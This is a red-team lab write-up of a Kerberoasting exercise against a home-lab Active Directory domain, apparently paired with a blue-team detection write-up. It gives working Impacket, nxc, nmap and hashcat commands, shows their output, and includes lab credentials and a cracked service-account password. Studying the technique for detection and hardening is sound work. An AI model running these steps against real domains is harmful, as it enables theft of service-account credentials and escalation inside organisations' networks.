# Kerberoasting — Red Team Write-Up

**Environment:** AIZEN.LAB Active Directory Home Lab
**Date performed:** 2026-09-22
**Author:** Steven (0x5t3v3n)
**MITRE ATT&CK:** T1558.003 — Steal or Forge Kerberos Tickets: Kerberoasting

---

## 1. Objective

Demonstrate the Kerberoasting attack technique end-to-end against a lab Active Directory environment: starting from a low-privileged, authenticated domain account, enumerate Kerberos-roastable service accounts (accounts with a registered SPN), request and extract their Kerberos service ticket (TGS) material, and attempt to recover the plaintext service-account password through offline cracking.

This write-up covers the **red-team / offensive** portion of the exercise. A companion blue-team write-up covers the corresponding detection and investigation using Wazuh.

---

## 2. Lab Environment

| Host | Role | OS | IP |
|---|---|---|---|
| `wazuh_server` (`w4zuhh`) | Wazuh manager/indexer/dashboard | Ubuntu | `192.168.100.10` |
| `WIN-DC01` | Domain Controller (victim) | Windows Server 2025, Build 26100 | `192.168.100.15` |
| Kali | Attacker | Kali Linux | `192.168.100.20` |

- **Domain:** `AIZEN.LAB`
- **Foothold credentials:** `h.lupercal` / `Firstfound1!` — a standard, non-administrative domain user, representing a typical initial-access scenario (comparable to being handed low-privilege creds on an HTB-style Windows AD box).
- **Target service account:** `svc-sql` (`CN=SQL Service,OU=ServiceAccounts,DC=aizen,DC=lab`) with SPN `MSSQLSvc/win-dc01.aizen.lab:1433`.

---

## 3. Technique Background

Kerberoasting abuses a normal piece of Kerberos functionality. Any authenticated domain user can request a Kerberos **service ticket (TGS)** for any account that has a **Service Principal Name (SPN)** registered — no elevated privileges are required, because SPNs exist specifically so clients can request tickets to authenticate to a service (e.g., a SQL Server instance).

The TGS returned by the KDC is encrypted with a key derived from the **target service account's password hash** — not the requesting user's. Because that ticket can be taken off the network and attacked **offline**, an attacker doesn't need to interact with the domain again once they have it:

```
Authenticated domain user
        │
        │ TGS-REQ for a service's SPN
        ▼
   Domain Controller / KDC
        │
        │ TGS-REP (ticket encrypted with the service account's key)
        ▼
   Attacker extracts ticket material
        │
        ▼
   Offline password cracking (Hashcat / John)
```

If the targeted service account has a weak password, the attacker recovers valid credentials for that account — which, in real environments, are often over-privileged relative to what a "service account" should need. Recovering the password does not "log the attacker into Kerberos"; it simply yields a working set of domain credentials that can then be used like any other.

---

## 4. Attack Narrative

### 4.1 Initial Access

A standard, non-administrative domain account was used as the starting foothold:

```
Domain:    aizen.lab
Username:  h.lupercal
Password:  Firstfound1!
```

### 4.2 Reconnaissance

Connectivity and credential validity were confirmed from Kali before any enumeration:

```bash
ping 192.168.100.15
nxc smb 192.168.100.15 -u h.lupercal -p 'Firstfound1!'
nmap -sC -sV 192.168.100.15
```

`nxc` confirmed the credentials authenticate against WIN-DC01 (`[+] aizen.lab\h.lupercal:Firstfound1!`). The `nmap` service scan confirmed a standard Domain Controller footprint and fingerprinted the host as **Windows 11 / Server 2025 (Build 26100 x64)**:

| Port | Service |
|---|---|
| 53 | Simple DNS Plus |
| 88 | Kerberos (kerberos-sec) |
| 135 | MS RPC |
| 139/445 | SMB (NetBIOS-ssn / microsoft-ds) |
| 389/3268 | LDAP / LDAP (Global Catalog) — domain `aizen.lab` |
| 464 | kpasswd5 |
| 593 | RPC over HTTP |
| 636/3269 | LDAPS / LDAPS (GC) |
| 5985 | WinRM (HTTPAPI) |

SMB signing was reported as **enabled and required**.



### 4.3 SPN Enumeration

Domain users and SPNs were enumerated to confirm a Kerberoastable target existed:

```powershell
Get-ADUser -Filter * | Select-Object SamAccountName
setspn -Q */*
```



`setspn -Q */*` confirmed a single user-owned SPN outside of the built-in machine/krbtgt accounts:

```
CN=SQL Service,OU=ServiceAccounts,DC=aizen,DC=lab
        MSSQLSvc/win-dc01.aizen.lab:1433

Existing SPN found!
```



This confirmed `svc-sql` as the Kerberoasting target.

### 4.4 Initial TGS Request

From Kali, using Impacket's `GetUserSPNs`:

```bash
impacket-GetUserSPNs aizen.lab/h.lupercal:'Firstfound1!' -dc-ip 192.168.100.15 -request
```

The SPN was enumerated correctly, but the TGS request itself failed:

```
[-] Principal: aizen.lab\svc-sql - Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```



**Root cause analysis:**

1. Impacket's `GetUserSPNs`, by default, requests the TGS using legacy encryption types (**RC4-HMAC**, **3DES**, **DES-CBC-MD5**) alongside whatever type the client's TGT used. Windows Server 2022/2025 raised the default Kerberos security baseline to favor **AES-only** encryption, controlled per-account by the `msDS-SupportedEncryptionTypes` attribute.
2. `svc-sql`'s `msDS-SupportedEncryptionTypes` was confirmed **blank/unset**:

   ```powershell
   Get-ADUser -Identity svc-sql -Properties msDS-SupportedEncryptionTypes
   ```

   An unset value doesn't mean "anything goes" — it falls back to the DC's own default, which on a modern Server 2025 functional level increasingly excludes RC4 entirely. This lined up exactly with the `KDC_ERR_ETYPE_NOSUPP` error.

   

3. The attribute was explicitly set to allow RC4 + AES128 + AES256 (`28`) to permit the classic RC4-based technique:

   ```powershell
   Set-ADUser -Identity svc-sql -Replace @{"msDS-SupportedEncryptionTypes"="28"}
   ```

   

4. Requests continued to intermittently fail. Isolating the variable further (inspecting the installed Impacket `getKerberosTGS()`/`getKerberosTGT()` source, confirming the client's TGT was AES256, and manually validating Kerberos from the Windows side via `klist`) showed the Windows environment and `svc-sql` account were correctly configured and capable of issuing the ticket. The remaining fault was isolated to **Kali's own Kerberos client configuration**: `/etc/krb5.conf` was still pointed at MIT's default `ATHENA.MIT.EDU` realm rather than `AIZEN.LAB`.

5. `/etc/krb5.conf` was corrected for the lab domain:

   ```bash
   sudo cp /etc/krb5.conf /etc/krb5.conf.bak
   sudo tee /etc/krb5.conf >/dev/null <<'EOF'
   [libdefaults]
       default_realm = AIZEN.LAB
       dns_lookup_realm = false
       dns_lookup_kdc = false
       rdns = false
       ticket_lifetime = 24h
       forwardable = true

   [realms]
       AIZEN.LAB = {
           kdc = 192.168.100.15
           admin_server = 192.168.100.15
       }

   [domain_realm]
       .aizen.lab = AIZEN.LAB
       aizen.lab = AIZEN.LAB
   EOF
   ```

6. A valid Kerberos TGT was obtained directly with `kinit`, and Impacket was pointed at the resulting credential cache (`-k -no-pass`) instead of doing password-based Kerberos auth itself:

   ```bash
   kinit h.lupercal@AIZEN.LAB
   klist
   impacket-GetUserSPNs -k -no-pass 'AIZEN.LAB/h.lupercal' -dc-ip 192.168.100.15 -request
   ```

A clean enumeration pass (without `-request`) confirmed the environment was now behaving correctly end-to-end:



### 4.5 TGS Hash Extraction — `svc-sql`

With the client-side Kerberos configuration fixed, the TGS request succeeded and returned a crackable ticket hash:

```bash
impacket-GetUserSPNs -k -no-pass 'AIZEN.LAB/h.lupercal' -dc-ip 192.168.100.15 -request > kerberoast.txt
```

```
ServicePrincipalName              Name     PasswordLastSet             LastLogon
--------------------------------  -------  --------------------------  ---------
MSSQLSvc/win-dc01.aizen.lab:1433  svc-sql  2026-09-19 02:44:49.739399  <never>

$krb5tgs$18$svc-sql$AIZEN.LAB$*AIZEN.LAB/svc-sql*$...
```

The `$krb5tgs$18$` prefix identifies this as an **AES256** TGS-REP hash (etype 18) rather than the older RC4 (etype 23) format.



The hash was isolated into its own file to keep the cracking evidence clean:

```bash
grep '^\$krb5tgs\$18\$' kerberoast.txt > svc-sql.hash
wc -l svc-sql.hash   # 1
```



**Attack chain established at this point:**

```
h.lupercal (low-priv)
     │  LDAP enumeration
     ▼
svc-sql — MSSQLSvc/win-dc01.aizen.lab:1433
     │  TGS request
     ▼
$krb5tgs$18$svc-sql$AIZEN.LAB$...
```

### 4.6 Offline Cracking — Attempt 1 (`svc-sql`)

A dictionary attack was run against the extracted hash using RockYou:

```bash
ls -lh /usr/share/wordlists/rockyou.txt*
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
hashcat -m 19700 svc-sql.hash /usr/share/wordlists/rockyou.txt
```



Hashcat mode **19700** (Kerberos 5, etype 18, TGS-REP / AES) was used, matching the hash type. The Kali VM initially had no OpenCL/CUDA backend available (VirtualBox, no GPU passthrough); this was resolved by installing a CPU-based OpenCL runtime:

```bash
sudo apt install -y pocl-opencl-icd
hashcat -I
```



**Result:** after **43 minutes, 5 seconds**, testing all **14,344,385** candidates in RockYou, the hash was **not cracked**:

```
Session..........: hashcat
Status............: Exhausted
Hash.Mode.........: 19700 (Kerberos 5, etype 18, TGS-REP)
Speed.#01.........: 5560 H/s
Recovered.........: 0/1 (0.00%)
Progress..........: 14344385/14344385 (100.00%)
```



**Finding:** obtaining a valid Kerberos TGS hash does **not** automatically equate to compromising the account. `svc-sql`'s real password was not present in RockYou, and AES-based TGS-REP hashes (mode 19700) are also computationally far more expensive to brute-force than RC4-based ones (RC4 was cracked at ~800,000 H/s in the same environment — see §4.8 — versus 5,560 H/s for AES). Both password strength and the ticket's encryption type materially affect how crackable a Kerberoasted hash is in practice.

### 4.7 Controlled Cracking Validation — `svc-nurgle`

To demonstrate a complete, successful crack under controlled conditions — and to generate the Kerberos telemetry needed for the companion blue-team write-up — a second, deliberately weak service account was created on `WIN-DC01`:

```powershell
New-ADUser -Name "svc-nurgle" `
  -SamAccountName "svc-nurgle" `
  -UserPrincipalName "svc-nurgle@aizen.lab" `
  -AccountPassword (ConvertTo-SecureString "su.PER_07" -AsPlainText -Force) `
  -Enabled $true `
  -PasswordNeverExpires $true
```

An SPN (`MSSQLSvc/win-dc01.aizen.lab:15555`) was registered to the account, and its password — `su.PER_07` — was deliberately chosen because it exists inside `rockyou.txt`. This mirrors a genuinely weak service-account password rather than fabricating a crack result.

> **Note:** This account and password were intentionally and artificially created for lab validation purposes. They do not represent the original `svc-sql` password, which remains uncracked (§4.6).

With `h.lupercal`'s existing TGT still cached, both SPNs were requested in a single pass:

```bash
mkdir -p ~/aizen/kerberoasting && cd ~/aizen/kerberoasting
impacket-GetUserSPNs -k -no-pass 'AIZEN.LAB/h.lupercal' -dc-ip 192.168.100.15 -request > kerberoast.txt
grep '^\$krb5tgs\$23\$.*svc-nurgle' kerberoast.txt > svc-nurgle.hash
cat svc-nurgle.hash
```

```
$krb5tgs$18$svc-sql$AIZEN.LAB$...        ← unchanged, still AES256 (etype 18)
$krb5tgs$23$*svc-nurgle$AIZEN.LAB$AIZEN.LAB/svc-nurgle*$...   ← RC4-HMAC (etype 23)
```



Unlike `svc-sql`, `svc-nurgle`'s `msDS-SupportedEncryptionTypes` was never hardened, so the KDC issued an RC4-HMAC (etype 23) ticket — the classic, cheaper-to-crack Kerberoasting hash format.

Hashcat mode **13100** (Kerberos 5, etype 23, TGS-REP / RC4) was used against the isolated hash:

```bash
hashcat -m 13100 svc-nurgle.hash /usr/share/wordlists/rockyou.txt
```



**Result:** cracked in **6 seconds**:

```
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Speed.#01........: 799.5 kH/s
Recovered........: 1/1 (100.00%)
Time.Started.....: (6 secs)

$krb5tgs$23$*svc-nurgle$AIZEN.LAB$AIZEN.LAB/svc-nurgle*$...:su.PER_07
```



`svc-nurgle`'s plaintext password — `su.PER_07` — was successfully recovered entirely offline.

### 4.8 Why the Two Attempts Differed

| Account | Encryption | Hashcat mode | Speed | Wordlist coverage | Result |
|---|---|---|---|---|---|
| `svc-sql` | AES256 (etype 18) | 19700 | ~5,560 H/s | Password **not** in RockYou | Not cracked (43 min, exhausted) |
| `svc-nurgle` | RC4-HMAC (etype 23) | 13100 | ~799,500 H/s | Password deliberately placed in RockYou | Cracked in 6 seconds |

Two independent factors combined here: RC4-based TGS-REP hashes are computationally far cheaper to attack than AES-based ones (roughly 144x faster in this environment), and `svc-nurgle`'s password was intentionally chosen to exist in the wordlist while `svc-sql`'s was not. In a real engagement, either factor alone can make or break a Kerberoasting attempt — which is exactly why service-account password strength and enforced AES-only Kerberos policy both matter as mitigations.

---

## 5. Attack Chain Summary

```
ATTACK
h.lupercal (authenticated, non-privileged domain user)
     │
     ├─ Reconnaissance: nmap + SMB auth check confirm DC and domain
     │
     ├─ SPN enumeration: setspn -Q */*, Get-ADUser → svc-sql identified
     │
     ├─ TGS request (svc-sql):
     │     └─ Extracted $krb5tgs$18$svc-sql... (AES256)
     │     └─ Offline crack attempt (RockYou) → not recovered
     │
     └─ TGS request (svc-nurgle, deliberately weak validation account):
           └─ Extracted $krb5tgs$23$*svc-nurgle... (RC4-HMAC)
           └─ Offline crack (RockYou, 6 sec) → password recovered: su.PER_07
```

**Outcome:** starting from a single set of low-privilege domain credentials, with no administrative access and no interactive logon to the Domain Controller beyond the initial LDAP/Kerberos queries, a service account's plaintext password was recovered entirely through legitimate Kerberos protocol behavior and offline computation.

---

## 6. Key Findings

1. **`svc-sql` and `svc-nurgle` are both Kerberoastable** — any authenticated domain user can request and extract a TGS for either account without additional privileges.
2. **Encryption type matters as much as password strength.** `svc-sql`, despite having RC4 explicitly re-enabled (`msDS-SupportedEncryptionTypes = 28`), still returned an AES256 ticket once the client-side Kerberos configuration was corrected, making its hash orders of magnitude more expensive to brute-force than an RC4 ticket. This is a meaningful, realistic defensive property of AES-only Kerberos rather than a lab misconfiguration.
